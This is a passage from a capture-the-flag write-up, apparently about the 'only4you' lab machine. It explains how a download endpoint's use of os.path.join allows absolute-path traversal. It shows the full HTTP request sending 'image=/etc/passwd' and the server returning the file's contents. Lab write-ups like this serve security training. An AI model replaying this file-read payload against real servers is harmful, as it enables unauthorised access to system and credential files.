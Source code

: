This function was not using `secure_filename`. Instead it called `posixpath.normpath` and looked for `..` in the filename, or `../` at the begining of the filename. Then if the path was absolute, it would pass it to `os.path.join`. When this method gets a part that starts with a `/`, it ignores everything that came before. So if I passed an absolute filename the `LIST_FOLDER` would be ignored.

I tried to download `/etc/passwd`.

```http
POST /download HTTP/1.1
Host: beta.only4you.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 17
Origin: http://beta.only4you.htb
Connection: close
Referer: http://beta.only4you.htb/list
Upgrade-Insecure-Requests: 1

image=/etc/passwd
```

It worked.

```http
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 06 May 2023 14:52:21 GMT
Content-Type: application/octet-stream
Content-Length: 2079
Connection: close
Content-Disposition: attachment; filename=passwd
Last-Modified: Thu, 30 Mar 2023 12:12:20 GMT
Cache-Control: no-cache
ETag: "1680178340.2049809-2079-393413677"

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
```